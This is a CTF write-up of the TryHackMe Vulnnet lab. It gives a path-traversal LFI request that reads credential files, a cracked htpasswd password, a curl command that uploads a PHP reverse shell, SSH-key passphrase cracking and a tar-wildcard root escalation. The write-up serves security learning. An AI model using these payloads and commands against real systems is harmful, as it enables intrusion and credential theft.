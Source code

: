 # Hack Log 9 - TryHackMe [Vulnnet](https://tryhackme.com/room/vulnnet)

📆:**Date:** 2025-06-23
🔍**Objective:** Obtain flags.  
🎯**Target**: TryHackme Vulnnet (Lab CTF)  

---  

## 🛠️ Actions Taken  

### Port and Service Enumeration  

```bash
nmap -A -p- 10.10.45.143
```

| Port    | Service  | Description                    |
|---------|----------|--------------------------------|
| 22 | ssh    | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)|                 |
| 80 | http     | Apache httpd 2.4.29                  |  


### Directory Enumeration  

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.46.143/
```

→ Found following directories  
  - /css
  - /img
  - /js

→ In "/js" there were 2 javascript files, upon observing both  
  - index__7ed54732.js
    ```javascript
    function l(a) {
           
            return fetch(function(a) {
            
                return "".concat(void 0 === e ? "http://broadcast.vulnnet.thm" : e).concat("/", "?_alias=").concat(n, "&_callbackAlias=").concat(l, "&_lang=").concat(c)
            }
    ```
    - The code snippet mentioned another subdomain as "http://broadcast.vulnnet.thm".  
   

    - index__d8338055.js
      ```javascript
          return n.d(t, "a", t), t
            }, n.o = function(e, t) {
          return Object.prototype.hasOwnProperty.call(e, t)
        }, n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0) }({
      ```
    - Found "referer" parameter which can lead to LFI.
   


### Local File Inclusion  

→ Testing LFI  
  - Fuzzing the endpoint "http://vulnnet.thm/index.php?referer=" with LFI payloads using Burp with the payload
    ```
    GET /index.php?referer=%2e%2e%2F%2e%2e%2F%2e%2e%2F%2F%2e%2e%2F%2e%2e%2Fetc%2fapache2%2f.htpasswd HTTP/1.1
    Host: vulnnet.thm
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    ```
  - Received the contents of "/etc/passwd in response which confirmed LFI.


### Exploitation  

→ Since apache was running in the machine, looking for "/etc/apache2/.htpasswd" returned a username and password hash.
  ```
      developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
  ```
→ Successfully cracked the hash with john. Password => 9972761drmfsls.  
→ Logging in with the credentials into the page "http://broadcast.vulnnet.thm/".  
→ This revealed ClickBucket service running, with its version as 4.0.  
→ Researching for the said version revealed that it's vulnerable. 
→ Arbitrary File Upload  
  - The following payload results in file upload in the server.
    ```bash
    curl -F "file=@/home/kali/Downloads/tryhackme/shell.php" -F "plupload=1" -F "name=shell.php" "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
    ```
    - Succesfuly uploaded the reverse shell.
    - Received the shell on the attacking machine succesfully.

### Post Exploitation  

→ Got access as user "www-data".  
→ Horizontal Privilege Escalation  
  - Upon inspecting crontab, found a script named "/var/opt/backupsrv.sh" scheduled to run.
  - The script has read/write/execute permissions set as root.  

    ```bash
    #!/bin/bash

    # Where to backup to.
    dest="/var/backups"
    
    # What to backup. 
    cd /home/server-management/Documents
    backup_files="*"
    
    # Create archive filename.
    day=$(date +%A)
    hostname=$(hostname -s)
    archive_file="$hostname-$day.tgz"
    
    # Print start status message.
    echo "Backing up $backup_files to $dest/$archive_file"
    date
    echo
    
    # Backup the files using tar.
    tar czf $dest/$archive_file $backup_files

    # Print end status message.
    echo
    echo "Backup finished"
    date

    ```

  - The script reveals interesting directories.
  - Checking the "/var/backups" direcotry, found an archive named "ssh-backup.tar.gz" owned by the user "server-management".
  - Copied the archive into a writable directory for user "www-data" that is "/tmp".
  - Extracted the archived via "tar -xzvf ssh-backup.tar.gz". It revealed a private ssh key.
  - Copied the key into the attacking machine and assigned the correct permissions via "chmod 600".
  - Upon doing ssh prompted for a passphrase, therefor generated the hash as "john key > key.hash".
  - Cracked the hash with john and found the passphrase.
  - Succesfully logged in as user "server-management" via ssh.


→ Vertical privilege escalation  
  - In the script there is a wildcard entry mentioned.
    ```bash
    # What to backup. 
    cd /home/server-management/Documents
    backup_files="*"
    ```
  - Hence via using the methods mentioned in this (article):[https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/].
  - Succesfully received the root shell and obtained root flag.



## 🔍 Key Findings 

- Local File Inclusion
- Arbitrary File upload in ClickBucket application.
- Privilege escalation via wildcard entry.






      
      


